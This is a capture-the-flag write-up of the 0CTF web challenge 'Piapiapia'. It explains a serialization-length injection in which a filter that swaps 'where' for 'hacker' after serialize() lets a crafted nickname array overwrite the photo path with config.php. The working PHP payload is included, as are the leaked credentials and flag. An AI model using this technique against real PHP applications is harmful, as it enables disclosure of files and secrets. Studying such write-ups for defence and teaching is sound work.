## Piapiapia (Web, 6p)
	
###ENG
[PL](#pl-version)

We get a page and its source. It looks like flag is stored inside config.php.
All inputs seem pretty well validated but 'nickname' doesn't handle arrays well.
Validation is skipped when passed as 'nickname[]='.

SQL injection will be hard, as all backslashes and "unsafe" words are removed:

	function filter($string) {
		$escape = array('\'', '\\\\');
		$escape = '/' . implode('|', $escape) . '/';
		$string = preg_replace($escape, '_', $string);

		$safe = array('select', 'insert', 'update', 'delete', 'where');
		$safe = '/' . implode('|', $safe) . '/i';
		return preg_replace($safe, 'hacker', $string);
	}

The problem is, it's sanitized *after* being serialized:

	$user->update_profile($username, serialize($profile));

	public function update_profile($username, $new_profile) {
		$username = parent::filter($username);
		$new_profile = parent::filter($new_profile);

		$where = "username = '$username'";
		return parent::update($this->table, 'profile', $new_profile, $where);
	}


Replacing "where" with "hacker" changes the length of the string.
Allowing us to replace part of serialized object with our content.
We replace photo file name with "config.php":

	$payload = "\";}s:5:\"photo\";s:10:\"config.php\";}\";";
	$POST['nickname[]'] = str_repeat("where", strlen($payload)).$payload;

After this, "config.php" is returned as base64 encoded data uri:

	<?php
		  $config['hostname'] = '127.0.0.1';
		  $config['username'] = '0ctf';
		  $config['password'] = 'oh-my-**-web';
		  $config['database'] = '0CTF_WEB';
		  $flag = '0ctf{fa717b49649fbb9c0dd0d1663469a871}';
	?>

###PL version
